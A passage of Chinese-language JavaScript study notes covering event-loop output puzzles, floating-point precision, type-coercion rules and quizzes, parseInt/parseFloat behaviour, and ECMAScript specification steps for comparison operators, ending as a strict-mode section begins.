setTimeout(() =>{
console.log(res)
}, 0)
})
// start children4 children2 children3 children5 children7 children6
第十题
async function async1() {
console.log('async1 start')
await async2()
console.log('async1 end')
}
async function async2() {
console.log('async2')
}
console.log('script start')
setTimeout(function () {
console.log('setTimeout')
}, 0)
async1()
new Promise((resolve) => {
console.log('promise1')
resolve()
}).then(function () {
console.log('promise2')
})
console.log('script end')
答案
async function async1() {
console.log('async1 start')
await async2()
console.log('async1 end')
}
async function async2() {
console.log('async2')
}
console.log('script start')
setTimeout(function () {
console.log('setTimeout')
}, 0)
async1()
new Promise((resolve) => {
console.log('promise1')
resolve()
}).then(function () {
console.log('promise2')
})
console.log('script end')
// 'script start'
// 'async1 start'
// 'async2'
// 'promise1'
// 'script end'
// 'async1 end'
// 'promise2'
// 'setTimeout'
第十一题
async function async1() {
console.log('async1 start');
await async2();
console.log('async1 end');
}
async function async2() {
new Promise(function (resolve) {
console.log('promise1');
resolve();
}).then(function () {
console.log('promise2');
});
}
console.log('script start');
setTimeout(function () {
console.log('setTimeout');
}, 0)
async1();
new Promise(function (resolve) {
console.log('promise3');
resolve();
}).then(function () {
console.log('promise4');
});
console.log('script end');
答案
async function async1() {
console.log('async1 start');
await async2();
console.log('async1 end');
}
async function async2() {
new Promise(function (resolve) {
console.log('promise1');
resolve();
}).then(function () {
console.log('promise2');
});
}
console.log('script start');
setTimeout(function () {
console.log('setTimeout');
}, 0)
async1();
new Promise(function (resolve) {
console.log('promise3');
resolve();
}).then(function () {
console.log('promise4');
});
console.log('script end');
// 'script start'
// 'async1 start'
// 'promise1'
// 'promise3'
// 'script end'
// 'promise2'
// 'async1 end'
// 'promise4'
// 'setTimeout'
第十二题
async function async1() {
console.log('async1 start');
await async2();
setTimeout(function() {
console.log('setTimeout1')
},0)
}
async function async2() {
setTimeout(function() {
console.log('setTimeout2')
},0)
}
console.log('script start');
setTimeout(function() {
console.log('setTimeout3');
}, 0)
async1();
new Promise(function(resolve) {
console.log('promise1');
resolve();
}).then(function() {
console.log('promise2');
});
console.log('script end');
答案
async function async1() {
console.log('async1 start');
await async2();
setTimeout(function() {
console.log('setTimeout1')
},0)
}
async function async2() {
setTimeout(function() {
console.log('setTimeout2')
},0)
}
console.log('script start');
setTimeout(function() {
console.log('setTimeout3');
}, 0)
async1();
new Promise(function(resolve) {
console.log('promise1');
resolve();
}).then(function() {
console.log('promise2');
});
console.log('script end');
// 'script start'
// 'async1 start'
// 'promise1'
// 'script end'
// 'promise2'
// 'setTimeout3'
// 'setTimeout2'
// 'setTimeout1'
浮点数精度
下面的结果是什么？为什么？
0.1 + 0.2 === 0.3
答案
0.1 + 0.2 === 0.3 //false
造成这样的结果的原因是因为js内部所有的数字都是以64位浮点数形式储存，在做运算的时候，是以这种64位浮点形式来运算，也就是二进制数。 十进制的小数转换成二进制时，规则是乘二取整，这样有可能无限循环下去，而除去指数位，双精度浮点数的小数位最多能保留53位，所以这样必然会损失掉一部分精度。计算完成后再转换成十进制，损失的精度造成了 0.1 + 0.2 不等于 0.3。
0.1 转换成二进制为 0.0001 1001 1001 1001 1001 1001 1001 1001 1001 1001 1001 1001 1001 101
0.2 转换成二进制为 0.0011 0011 0011 0011 0011 0011 0011 0011 0011 0011 0011 0011 0011 001
它们相加结果为 0.0100110011001100110011001100110011001100110011001101
转换成十进制为 0.30000000000000004
0.30000000000000004 不等于 0.3
为什么十进制小数转换成二进制时是乘二取整？
以二进制数1111.1111为例
1111.1111
//小数点左边第一位的1代表有1个1，2^0
//小数点左边第二位的1代表有1个2, 2^1
//小数点左边第三位的1代表有1个4, 2^2
//小数点左边第四位的1代表有1个8, 2^3
//小数点右边第一位的1代表有1个0.5（二分之一），2^-1
//小数点右边第二位的1代表有1个0.25（四分之一），2^-2
//小数点右边第三位的1代表有1个0.125（八分之一），2^-3
//小数点右边第四位的1代表有1个0.0625（十六分之一），2^-4
上面的例子可以看出想要计算出十进制小数对应的二进制，就只需知道有多少个二分之一，四分之一，八分之一，十六分之一。所以就要用十进制数字的小数部分去除以二分之一，四分之一，八分之一，十六分之一，也就是乘以2，乘以2*2，乘以2*2*2，乘以2*2*2*2，然后取每一次乘2的整数部分作为对应的二进制位。
//计算十进制0.3转换成二进制
0.3 * 2 = 0.6 取整数位0
0.6 * 2 = 1.2 取整数位1
0.2 * 2 = 0.4 取整数位0
0.4 * 2 = 0.8 取整数位0
0.8 * 2 = 1.6 取整数位1
0.6 * 2 = 1.2 取整数位1
......
二进制数：0.010011...... // 无限循环下去
类型转换
虽然变量的数据类型是不确定的，但是各种运算符对数据类型是有要求的。如果运算符发现，运算子的类型与预期不符，就会自动转换类型。
强制转换
强制转换主要指使用 Number()、String() 和 Boolean() 三个函数，手动将各种类型的值，分别转换成数字、字符串或者布尔值。
Number()
- 原始类型值
// 数值：转换后还是原来的值
Number(324) // 324
// 字符串：如果可以被解析为数值，则转换为相应的数值
Number('324') // 324
// 字符串：如果不可以被解析为数值，返回 NaN
Number('324abc') // NaN
// 空字符串转为0
Number('') // 0
// 布尔值：true 转成 1，false 转成 0
Number(true) // 1
Number(false) // 0
// undefined：转成 NaN
Number(undefined) // NaN
// null：转成0
Number(null) // 0
parseInt 和 Number 函数都会自动过滤一个字符串前导和后缀的空格。
- 对象
简单的规则是，Number方法的参数是对象时，将返回 NaN，除非是包含单个数值的数组。
Number({a: 1}) // NaN
Number([1, 2, 3]) // NaN
Number([5]) // 5
// 对象转换时，先调用 valueOf 方法, 结果返回对象本身，然后调用 toString 方法，这时返回字符串[object Object]
// 而数组转换时，先调用 valueOf 返回数组本身，然后调用 toString ，[1, 2, 3] 返回 '1,2,3' 而 [5] 返回 '5'
// 对象和数组调用 valueOf 都返回自身
// 对象调用 toString 返回 [object Object] 字符串
// 数组调用 toString 返回 逗号分隔元素列表字符串
原因：
第一步，调用对象自身的 valueOf 方法。如果返回原始类型的值，则直接对该值使用Number函数，不再进行后续步骤。
第二步，如果 valueOf 方法返回的还是对象，则改为调用对象自身的 toString 方法。如果 toString 方法返回原始类型的值，则对该值使用 Number 函数，不再进行后续步骤。
第三步，如果 toString 方法返回的是对象，就报错。
String()
- 原始类型值
- 数值：转为相应的字符串。
- 布尔值：true 转为字符串 "true"，false 转为字符串 "false"。
- undefined：转为字符串 "undefined"。
- null：转为字符串 "null"。
- NaN：转为字符串 "NaN"
String(123) // "123"
String(true) // "true"
String(undefined) // "undefined"
String(null) // "null"
String(NaN) // 'NaN'
- 对象
String方法的参数如果是对象，返回一个类型字符串；如果是数组，返回该数组的字符串形式。
String({a: 1}) // "[object Object]"
String([1, 2, 3]) // "1,2,3"
第一步，先调用对象自身的 toString 方法。如果返回原始类型的值，则对该值使用 String 函数，不再进行以下步骤。
第二步，如果 toString 方法返回的是对象，再调用原对象的 valueOf 方法。如果 valueOf 方法返回原始类型的值，则对该值使用 String 函数，不再进行以下步骤。
第三步，如果 valueOf 方法返回的是对象，就报错。
Boolean()
- 0（+0 和 -0）
- NaN
- ''
- false
- null
- undefined
这 6 个返回 false，其它都返回 true
自动转换
遇到以下三种情况时，JavaScript 会自动转换数据类型，即转换是自动完成的，用户不可见。
第一种情况，不同类型的数据互相运算。
123 + 'abc' // "123abc"
第二种情况，对非布尔值类型的数据求布尔值。
if ('abc') {
console.log('hello')
} // "hello"
let a
a ? 'a' : 'b'
第三种情况，对非数值类型的值使用一元运算符（即 + 和 -）。
+ {foo: 'bar'} // NaN
- [1, 2, 3] // NaN
自动转换的规则是这样的：预期什么类型的值，就调用该类型的转换函数。比如，某个位置预期为字符串，就调用 String() 函数进行转换。如果该位置既可以是字符串，也可能是数值，那么默认转为数值。
- 当一个值为字符串，另一个值为非字符串，则非字符串值转为字符串。
1 + 'a' // '1a'
'a' + 1 // 'a1'
- 除了加法运算符（+）有可能把运算子转为字符串，其他运算符都会把运算子自动转成数值。
'5' - '2' // 3
'5' * '2' // 10
true - 1 // 0
false - 1 // -1
'1' - 1 // 0
'5' * [] // 0
false / '5' // 0
'abc' - 1 // NaN
null + 1 // 1
undefined + 1 // NaN
- 一元运算符也会把运算子转成数值。
+'abc' // NaN
-'abc' // NaN
+true // 1
-false // 0
比较运算符
相等比较和非相等比较。两者的规则是不一样的
- 对于非相等的比较，算法是先看两个运算子是否都是字符串，如果是的，就按照字典顺序比较（实际上是比较 Unicode 码点）；否则，将两个运算子都转成数值，再比较数值的大小。
非相等运算符：字符串的比较
依次比较字符串 Unicode 码点
非相等运算符：非字符串的比较
- 原始类型值
如果两个运算子都是原始类型的值，则是先转成数值再比较。
5 > '4' // true
// 等同于 5 > Number('4')
// 即 5 > 4
true > false // true
// 等同于 Number(true) > Number(false)
// 即 1 > 0
2 > true // true
// 等同于 2 > Number(true)
// 即 2 > 1
- 对象
如果运算子是对象，会转为原始类型的值，再进行比较。对象转换成原始类型的值，算法是先调用valueOf方法；如果返回的还是对象，再接着调用toString方法
var x = [2];
x > '11' // true
// 等同于 [2].valueOf().toString() > '11'
// 即 '2' > '11'
x.valueOf = function () { return '1' };
x > '11' // false
// 等同于 [2].valueOf() > '11'
// 即 '1' > '11'
[2] > [1] // true
// 等同于 [2].valueOf().toString() > [1].valueOf().toString()
// 即 '2' > '1'
[2] > [11] // true
// 等同于 [2].valueOf().toString() > [11].valueOf().toString()
// 即 '2' > '11'
{ x: 2 } >= { x: 1 } // true
// 等同于 { x: 2 }.valueOf().toString() >= { x: 1 }.valueOf().toString()
// 即 '[object Object]' >= '[object Object]'
严格相等运算符
如果两个值不是同一类型，严格相等运算符（===）直接返回false。只需注意一些特殊情况。
1 === 0x1 // true
NaN === NaN // false
+0 === -0 // true
相等运算符
- 相等运算符用来比较相同类型的数据时，与严格相等运算符完全一样。
- 比较不同类型的数据时，相等运算符会先将数据进行类型转换，然后再用严格相等运算符比较
- 原始类型的值会转换成数值再进行比较。
- 对象（这里指广义的对象，包括数组和函数）与原始类型的值比较时，对象转换成原始类型的值，再进行比较。先调用对象的valueOf()方法，如果得到原始类型的值，就按照上一小节的规则，互相比较；如果得到的还是对象，则再调用toString()方法，得到字符串形式，再进行比较。
- undefined和null只有与自身比较，或者互相比较时，才会返回true；与其他类型的值比较时，结果都为false。
1 == true // true
// 等同于 1 === Number(true)
0 == false // true
// 等同于 0 === Number(false)
2 == true // false
// 等同于 2 === Number(true)
2 == false // false
// 等同于 2 === Number(false)
'true' == true // false
// 等同于 Number('true') === Number(true)
// 等同于 NaN === 1
'' == 0 // true
// 等同于 Number('') === 0
// 等同于 0 === 0
'' == false // true
// 等同于 Number('') === Number(false)
// 等同于 0 === 0
'1' == true // true
// 等同于 Number('1') === Number(true)
// 等同于 1 === 1
'\n 123 \t' == 123 // true
// 因为字符串转为数字时，省略前置和后置的空格
// 数组与数值的比较
[1] == 1 // true
// 数组与字符串的比较
[1] == '1' // true
[1, 2] == '1,2' // true
// 对象与布尔值的比较
[1] == true // true
[2] == true // false
const obj = {
valueOf: function () {
console.log('执行 valueOf()');
return obj;
},
toString: function () {
console.log('执行 toString()');
return 'foo';
}
};
obj == 'foo'
// 执行 valueOf()
// 执行 toString()
// true
undefined == undefined // true
null == null // true
undefined == null // true
false == null // false
false == undefined // false
0 == null // false
0 == undefined // false
0 == '' // true
0 == '0' // true
2 == true // false
2 == false // false
false == 'false' // false
false == '0' // true
false == undefined // false
false == null // false
null == undefined // true
' \t\r\n ' == 0 // true
parseInt 和 parseFloat
parseInt
- parseInt方法用于将字符串转为整数。如果参数不是一个字符串，则将其转换为字符串。parseInt的返回值只有两种可能，要么是一个十进制整数，要么是NaN
- 如果字符串头部有空格，空格会被自动去除
- 字符串转为整数的时候，是一个个字符依次转换，如果遇到不能转为数字的字符，就不再进行下去，返回已经转好的部分。
- 如果字符串的第一个字符不能转化为数字（后面跟着数字的正负号除外），返回NaN。
- 如果字符串以0x或0X开头，parseInt会将其按照十六进制数解析。
- 如果字符串以0开头，将其按照10进制解析。
- 会自动转为科学计数法的数字，parseInt会将科学计数法的表示方法视为字符串，因此导致一些奇怪的结果
parseInt('123') // 123
parseInt(' 81') // 81
parseInt(1.23) // 1
// 等同于
parseInt('1.23') // 1
parseInt('8a') // 8
parseInt('12**') // 12
parseInt('12.34') // 12
parseInt('15e2') // 15
parseInt('15px') // 15
parseInt('abc') // NaN
parseInt('.3') // NaN
parseInt('') // NaN
parseInt('+') // NaN
parseInt('+1') // 1
parseInt('0x10') // 16
parseInt('011') // 11
parseInt(1000000000000000000000.5) // 1
// 等同于
parseInt('1e+21') // 1
parseInt(0.0000008) // 8
// 等同于
parseInt('8e-7') // 8
- parseInt方法还可以接受第二个参数（2到36之间），表示被解析的值的进制。parseInt的第二个参数默认为10，也就是十进制转十进制
- 第二个参数不是数值，会被自动转为一个整数。这个整数只有在2到36之间，才能得到有意义的结果，超出这个范围，则返回NaN。如果第二个参数是0、undefined和null，则直接忽略。
- 如果字符串包含对于指定进制无意义的字符，则从最高位开始，只返回可以转换的数值。如果最高位无法转换，则直接返回NaN。
- 如果parseInt的第一个参数不是字符串，会被先转为字符串。这会导致一些令人意外的结果。八进制的前缀0，尤其需要注意
parseInt('1000') // 1000
// 等同于
parseInt('1000', 10) // 1000
parseInt('1000', 2) // 8
parseInt('1000', 6) // 216
parseInt('1000', 8) // 512
parseInt('10', 37) // NaN
parseInt('10', 1) // NaN
parseInt('10', 0) // 10
parseInt('10', null) // 10
parseInt('10', undefined) // 10
parseInt('1546', 2) // 1
parseInt('546', 2) // NaN
parseInt(0x11, 36) // 43
parseInt(0x11, 2) // 1
// 等同于
parseInt(String(0x11), 36)
parseInt(String(0x11), 2)
// 等同于
parseInt('17', 36)
parseInt('17', 2)
parseInt(011, 2) // NaN
// 等同于
parseInt(String(011), 2)
// 等同于
parseInt(String(9), 2)
parseFloat
- parseFloat方法用于将一个字符串转为浮点数。parseFloat方法会自动过滤字符串前导的空格。
- 如果字符串符合科学计数法，则会进行相应的转换。
- 如果字符串包含不能转为浮点数的字符，则不再进行往后转换，返回已经转好的部分。
- 如果参数不是字符串，或者字符串的第一个字符不能转化为浮点数，则返回NaN。
parseFloat('3.14') // 3.14
parseFloat('\t\v\r12.34\n ') // 12.34
parseFloat('314e-2') // 3.14
parseFloat('0.0314E+2') // 3.14
parseFloat('3.14more non-digit characters') // 3.14
parseFloat([]) // NaN
parseFloat('FF2') // NaN
parseFloat('') // NaN
parseFloat(true) // NaN
Number(true) // 1
parseFloat(null) // NaN
Number(null) // 0
parseFloat('') // NaN
Number('') // 0
parseFloat('123.45#') // 123.45
Number('123.45#') // NaN
题目
第一题
true + false
12 / "6"
"number" + 15 + 3
15 + 3 + "number"
[1] > null
"foo" + + "bar"
"true" == true
false == "false"
null == ""
!!"false" == !!"true"
["x"] == "x"
[] + null + 1
[1,2,3] == [1,2,3]
{} + [] + {} + [1]
! + [] + [] + ![]
new Date(0) - 0
new Date(0) + 0
答案
true + false // 1 + 0 => 1
12 / "6" // 2
"number" + 15 + 3 // 'number153'
15 + 3 + "number" // '18number'
[1] > null // 1 > 0 => true
"foo" + + "bar" // 'foo' + (+ 'bar') => 'foo' + NaN => 'fooNaN'
"true" == true // NaN == 1 => false
false == "false" // 0 == NaN => false
null == "" // false null 不等于任何值除了 null 和 undefined
!!"false" == !!"true" // true == true => true
["x"] == "x" // true
[] + null + 1 // 'null1'
[1,2,3] == [1,2,3] // false
{} + [] + {} + [1] // '0[object Object]1'
! + [] + [] + ![] // 'truefalse'
new Date(0) - 0 // 0
new Date(0) + 0 // 'Thu Jan 01 1970 02:00:00 GMT+0200 (EET)0'
第二题
let ans = ["1", "2", "3"].map(parseInt);
console.log(ans);
答案
let ans = ["1", "2", "3"].map(parseInt);
/*
["1", "2", "3"].map((item, index) => {
return parseInt(item, index)
});
parseInt('1', 0)
parseInt('2', 1)
parseInt('3', 2)
*/
console.log(ans);
// [1, NaN, NaN]
第三题
if ([] == ![]) {
console.log('1')
} else {
console.log('2')
}
答案
先计算一元操作符 ![]
- 先调用 ToBoolean 将操作数转换成布尔值（null undefined 0 NaN false '' 返回 false，其他一律 true）
- 然后对布尔值取反，返回结果
所以 ![] 的结果是 false，这时候的式子变成了 [] == false，类型不一样，且之中有引用类型，于是调用 toPrimitive 将 [] 转换成简单类型，转换后是空字符串 ''，于是变成 '' == false，都是简单类型转换成数字比较，0 == 0，结果是 true，所以打印 1。
规范中的隐式转换
普通运算符
从 ES 标准中可以发现以下几种运算符做运算的时候，都调用了相同的抽象操作：
- Exponentiation Operator 指数运算，幂运算，例如： a ** 2
- Multiplicative Operators 乘法运算，例如：a * 2; a / 2; a % 2（乘法，除法，取余）
- Additive Operators 加法运算，例如 a + b; a - b（加法，减法）
- The Left Shift Operator; The Signed Right Shift Operator; The Unsigned Right Shift Operator 左移，右移，无符号右移，例如： a << 2, a >> 2, a >>> 2
- Binary Bitwise Operators 二进制位运算符，例如 a & 1, a | 1, a ^ 1 （按位与，按位或，按位异或）
以上这些运算符（最常用的就是加减乘除）都调用了 ES 内部的抽象操作：EvaluateStringOrNumericBinaryExpression ( leftOperand, opText, rightOperand )。
以下是 EvaluateStringOrNumericBinaryExpression 的步骤：
1. Let lref be the result of evaluating leftOperand.
2. Let lval be ? GetValue(lref).
3. Let rref be the result of evaluating rightOperand.
4. Let rval be ? GetValue(rref).
5. Return ? ApplyStringOrNumericBinaryOperator(lval, opText, rval).
获取到左操作数的值和右操作数的值后，又调用了抽象操作 ApplyStringOrNumericBinaryOperator(lval, opText, rval)
// ApplyStringOrNumericBinaryOperator(lval, opText, rval)
1. Assert: opText is present in the table in step 8.
2. If opText is +, then
a. Let lprim be ? ToPrimitive(lval).
b. Let rprim be ? ToPrimitive(rval).
c. If Type(lprim) is String or Type(rprim) is String, then
i. Let lstr be ? ToString(lprim).
ii. Let rstr be ? ToString(rprim).
iii. Return the string-concatenation of lstr and rstr.
d. Set lval to lprim.
e. Set rval to rprim.
3. NOTE: At this point, it must be a numeric operation.
4. Let lnum be ? ToNumeric(lval).
5. Let rnum be ? ToNumeric(rval).
6. If Type(lnum) is different from Type(rnum), throw a TypeError exception.
7. Let T be Type(lnum).
8. Let operation be the abstract operation associated with opText in the following table:
opText operation
** T::exponentiate
* T::multiply
/ T::divide
% T::remainder
+ T::add
- T::subtract
<< T::leftShift
>> T::signedRightShift
>>> T::unsignedRightShift
& T::bitwiseAND
^ T::bitwiseXOR
| T::bitwiseOR
9. Return ? operation(lnum, rnum).
加号的运算是优先要判断处理的，它和其他运算符不一样。
2. 如果运算符是 + ，则
a. 计算 lprim 为 ToPrimitive(lval)
b. 计算 rprim 为 ToPrimitive(rval)
c. 如果 lprim 或 rprim 的类型是字符串，则
i. 将 lprim 转换为字符串 lstr
ii. 将 rprim 转换为字符串 rstr
iii. 返回 lstr 和 rstr 的字符串拼接结果
d. 将 lval 设置为 lprim
e. 将 rval 设置为 rprim
3. 这之后必须是数值的操作了（也就是说两个操作数都必须转成数字类型了）
ToPrimitive 操作其实就是将非原始类型的值（比如对象和数组）转换成原始类型（比如字符串和数字）。
// ToPrimitive ( input [ , preferredType ] )
1. Assert: input is an ECMAScript language value.
2. If Type(input) is Object, then
a. Let exoticToPrim be ? GetMethod(input, @@toPrimitive).
b. If exoticToPrim is not undefined, then
i. If preferredType is not present, let hint be "default".
ii. Else if preferredType is string, let hint be "string".
iii. Else,
1. Assert: preferredType is number.
2. Let hint be "number".
iv. Let result be ? Call(exoticToPrim, input, « hint »).
v. If Type(result) is not Object, return result.
vi. Throw a TypeError exception.
c. If preferredType is not present, let preferredType be number.
d. Return ? OrdinaryToPrimitive(input, preferredType).
3. Return input.
2. 如果输入值的类型是 Object，则
a. 让 exoticToPrim 等于 GetMethod(input, @@toPrimitive) （获取这个类型对应的 toPrimitive 方法）
b. 如果 exoticToPrim 存在，则
i. 如果 preferredType （期望类型）不存在，则 hint 设置为 'default'
ii. 如果 preferredType （期望类型） 是字符串，则 hint 设置为 'string'
iii. 其他情况：
1. preferredType 为数字
2. hint 设置为 'number'
iv. 让 result 等于 exoticToPrim 调用结果 Call(exoticToPrim, input, « hint »)
v. 如果 result 的类型不是 Object，返回 result
vi. 抛出 TypeError 类型错误
c. 如果 preferredType 不存在，让 preferredType 是数字类型
d. 返回 OrdinaryToPrimitive(input, preferredType) 的结果
3. 返回输入值 input
注意：如果 ToPrimitive 调用时没有 hint，则通常它就会认为 hint 是数字类型 number。默认情况下原始类型中只有 Date 和 Symbol 这两个类型定义了 Symbol.toPrimitive 属性，其他类型都没有这个属性，所以 GetMethod(input, @@toPrimitive) 会返回 undefined，因此数组和对象的 Symbol.toPrimitive 没有定义的时候会走 OrdinaryToPrimitive 逻辑。
OrdinaryToPrimitive ( O, hint ) 的步骤如下：
// OrdinaryToPrimitive ( O, hint )
1. Assert: Type(O) is Object.
2. Assert: hint is either string or number.
3. If hint is string, then
a. Let methodNames be « "toString", "valueOf" ».
4. Else,
a. Let methodNames be « "valueOf", "toString" ».
5. For each element name of methodNames, do
a. Let method be ? Get(O, name).
b. If IsCallable(method) is true, then
i. Let result be ? Call(method, O).
ii. If Type(result) is not Object, return result.
6. Throw a TypeError exception.
1. O 的类型是对象类型
2. hint 是字符串或数字
3. 如果 hint 是字符串
a. 让 methodNames 为 « "toString", "valueOf" »
4. 否则
a. 让 methodNames 为 « "valueOf", "toString" »
5. 循环 methodNames 的得到每一项为 name
a. 让 method 等于 Get(O, name)
b. 如果 method 是可被调用的，则
i. 让 result 等于 Call(method, O)
ii. 如果 result 不是对象类型，返回 result
6. 抛出 TypeError 错误
之前的 ApplyStringOrNumericBinaryOperator 中如果左操作数和右操作数调用 toPrimitive 返回的原始类型都不是字符串，则继续后续流程，会调用 ToNumeric 将它们都转换成数字类型。
// ToNumeric ( value )
1. Let primValue be ? ToPrimitive(value, number).
2. If Type(primValue) is BigInt, return primValue.
3. Return ? ToNumber(primValue).
1. 让 primValue 等于调用 ToPrimitive 将 value 转换成的原始类型结果，preferredType 期望类型是 number
2. 如果 primValue 是 BigInt 类型，直接返回
3. 返回 ToNumber(primValue)
可以看到 ToNumeric 先调用了 ToPrimitive 并且期望值是 number，然后最后调用了 ToNumber。ToNumber 的转换规则如下表
| 参数类型 | 转换结果 |
|---|---|
| Undefined | NaN |
| null | +0 |
| Boolean | true 返回 1；false 返回 +0 |
| Number | 直接返回不转换 |
| String | 返回 StringToNumber 的结果 |
| Symbol | 抛出 TypeError 错误 |
| BigInt | 抛出 TypeError 错误 |
| Object | 1. 让 primValue 等于 ToPrimitive(argument, number) 的返回值 2. 返回 ToNumber(primValue) |
非相等运算符
非相等运算符都调用了 IsLessThan ( x, y, LeftFirst )
// IsLessThan ( x, y, LeftFirst )
1. If the LeftFirst flag is true, then
a. Let px be ? ToPrimitive(x, number).
b. Let py be ? ToPrimitive(y, number).
2. Else,
a. NOTE: The order of evaluation needs to be reversed to preserve left to right evaluation.
b. Let py be ? ToPrimitive(y, number).
c. Let px be ? ToPrimitive(x, number).
3. If Type(px) is String and Type(py) is String, then
a. If IsStringPrefix(py, px) is true, return false.
b. If IsStringPrefix(px, py) is true, return true.
c. Let k be the smallest non-negative integer such that the code unit at index k within px is different from the code unit at index k within py. (There must be such a k, for neither String is a prefix of the other.)
d. Let m be the integer that is the numeric value of the code unit at index k within px.
e. Let n be the integer that is the numeric value of the code unit at index k within py.
f. If m < n, return true. Otherwise, return false.
4. Else,
a. If Type(px) is BigInt and Type(py) is String, then
i. Let ny be ! StringToBigInt(py).
ii. If ny is NaN, return undefined.
iii. Return BigInt::lessThan(px, ny).
b. If Type(px) is String and Type(py) is BigInt, then
i. Let nx be ! StringToBigInt(px).
ii. If nx is NaN, return undefined.
iii. Return BigInt::lessThan(nx, py).
c. NOTE: Because px and py are primitive values, evaluation order is not important.
d. Let nx be ? ToNumeric(px).
e. Let ny be ? ToNumeric(py).
f. If Type(nx) is the same as Type(ny), return Type(nx)::lessThan(nx, ny).
g. Assert: Type(nx) is BigInt and Type(ny) is Number, or Type(nx) is Number and Type(ny) is BigInt.
h. If nx or ny is NaN, return undefined.
i. If nx is -∞𝔽 or ny is +∞𝔽, return true.
j. If nx is +∞𝔽 or ny is -∞𝔽, return false.
k. If ℝ(nx) < ℝ(ny), return true; otherwise return false.
主要步骤就是：
- 调用 ToPrimitive 将左右操作数中非原始类型的转换成原始类型
- 如果左右操作数都是 String，就按照字典顺序比较
- 如果左右操作数一个是 BigInt 一个是 String，就将 String 转换成 BigInt 然后比较
- 其他情况，将两个操作数都转换成 Number 比较
非严格相等运算符
非严格相等运算符调用了 IsLooselyEqual ( x, y )
// IsLooselyEqual ( x, y )
1. If Type(x) is the same as Type(y), then
a. Return IsStrictlyEqual(x, y).
2. If x is null and y is undefined, return true.
3. If x is undefined and y is null, return true.
4. NOTE: This step is replaced in section B.3.6.2.
5. If Type(x) is Number and Type(y) is String, return IsLooselyEqual(x, ! ToNumber(y)).
6. If Type(x) is String and Type(y) is Number, return IsLooselyEqual(! ToNumber(x), y).
7. If Type(x) is BigInt and Type(y) is String, then
a. Let n be ! StringToBigInt(y).
b. If n is NaN, return false.
c. Return IsLooselyEqual(x, n).
8. If Type(x) is String and Type(y) is BigInt, return IsLooselyEqual(y, x).
9. If Type(x) is Boolean, return IsLooselyEqual(! ToNumber(x), y).
10. If Type(y) is Boolean, return IsLooselyEqual(x, ! ToNumber(y)).
11. If Type(x) is either String, Number, BigInt, or Symbol and Type(y) is Object, return IsLooselyEqual(x, ? ToPrimitive(y)).
12. If Type(x) is Object and Type(y) is either String, Number, BigInt, or Symbol, return IsLooselyEqual(? ToPrimitive(x), y).
13. If Type(x) is BigInt and Type(y) is Number, or if Type(x) is Number and Type(y) is BigInt, then
a. If x or y are any of NaN, +∞𝔽, or -∞𝔽, return false.
b. If ℝ(x) = ℝ(y), return true; otherwise return false.
14. Return false.
主要步骤如下：
- 如果 x 和 y 类型一样，返回 IsStrictlyEqual(x, y) 的比较结果（其实就和严格相等运算符一样）
- x 和 y 如果是 null 或 undefined，直接返回 true
- x 和 y 中有对象类型存在，就调用 toPrimitive 转换成原始类型然后再比较
- x 和 y 都是原始类型，都转换成数字比较
- x 和 y 是 BigInt 和 String ，把 String 转换成 BigInt 然后再比较
严格相等运算符
严格相等运算符调用了 IsStrictlyEqual ( x, y )
// IsStrictlyEqual ( x, y )
1. If Type(x) is different from Type(y), return false.
2. If Type(x) is Number or BigInt, then
a. Return ! Type(x)::equal(x, y).
3. Return ! SameValueNonNumeric(x, y).
- 如果 x 和 y 类型不一样，返回 false
- 如果是 Number 或者 BigInt 类型，调用 equal(x, y)
- 否则调用 SameValueNonNumeric(x, y)
SameValueNonNumeric ( x, y )
// SameValueNonNumeric ( x, y )
1. Assert: Type(x) is not Number or BigInt.
2. Assert: Type(x) is the same as Type(y).
3. If Type(x) is Undefined, return true.
4. If Type(x) is Null, return true.
5. If Type(x) is String, then
a. If x and y are exactly the same sequence of code units (same length and same code units at corresponding indices), return true; otherwise, return false.
6. If Type(x) is Boolean, then
a. If x and y are both true or both false, return true; otherwise, return false.
7. If Type(x) is Symbol, then
a. If x and y are both the same Symbol value, return true; otherwise, return false.
8. If x and y are the same Object value, return true. Otherwise, return false.
- x 和 y 类型相等，但是不是 Number 或 BigInt
- x 是 Undefined 或 null，直接返回 true
- 字符串一个字符一个字符比较
- 布尔值都是 true 或 都是 false 返回 true，否则返回 false
- Symbol 如果是同一个 Symbol 值，返回 true，否则返回 false
- 如果是同一个对象，返回 true，否则返回 false
总结
基础运算符（加减乘除，指数，位运算，二进制左移右移）
- 运算符是加号 + 的情况单独处理
- 调用 ToPrimitive 将左右操作数变成原始类型 1. 此处开始 ToPrimitive 操作。如果参数是对象类型，获取这个类型的 toPrimitive 方法 2. 如果类型对应的 toPrimitive 方法存在，则设置 hint 为 default（没有期望），string（期望字符串），number（期望数字）然后返回 toPrimitive 方法调用结果作为结果 3. 如果 toPrimitive 方法不存在，则按照期望类型先后调用 valueOf toString （期望 number），toString valueOf（期望字符串），然后返回结果
- 加号 + 的情况 toPrimitive 返回后，如果左右操作数中有一个是字符串，则两个都转换为字符串，然后返回字符串拼接的结果
- 否则，其他情况都是数字计算的情况，两个操作数都转换成数字然后计算
非相等运算符（大于，小于，大于等于，小于等于）
- 调用 ToPrimitive 将左右操作数中非原始类型的转换成原始类型
- 如果左右操作数都是 String，就按照字典顺序比较
- 如果左右操作数一个是 BigInt 一个是 String，就将 String 转换成 BigInt 然后比较
- 其他情况，将两个操作数都转换成 Number 比较
不严格相等运算符
- 如果 x 和 y 类型一样，返回 IsStrictlyEqual(x, y) 的比较结果（其实就和严格相等运算符一样）
- x 和 y 如果是 null 或 undefined，直接返回 true
- x 和 y 中有对象类型存在，就调用 toPrimitive 转换成原始类型然后再比较
- x 和 y 都是原始类型，且类型不一样，那就都转换成数字比较
- x 和 y 是 BigInt 和 String ，把 String 转换成 BigInt 然后再比较
严格相等运算符
- 如果 x 和 y 类型不一样，返回 false
- 如果是 Number 或者 BigInt 类型，调用 equal(x, y)
- 否则调用 SameValueNonNumeric(x, y)
一元操作符 +
- 调用 ToNumber
- 如果参数是引用类型对象，调用 ToPrimitive(argument, number) 后再调用 ToNumber
一元操作符 !
- 先调用 ToBoolean 将操作数转换成布尔值（null undefined 0 NaN false '' 返回 false，其他一律 true）
- 然后对布尔值取反，返回结果
严格模式
早期的 JavaScript 语言有很多设计不合理的地方，但是为了兼容以前的代码，又不能改变老的语法，只能不断添加新的语法，引导程序员使用新语法。
严格模式是从 ES5 进入标准的，主要目的有以下几个。
- 明确禁止一些不合理、不严谨的语法，减少 JavaScript 语言的一些怪异行为。
- 增加更多报错的场合，消除代码运行的一些不安全之处，保证代码运行的安全。
- 提高编译器效率，增加运行速度。
- 为未来新版本的 JavaScript 语法做好铺垫。
- 启用
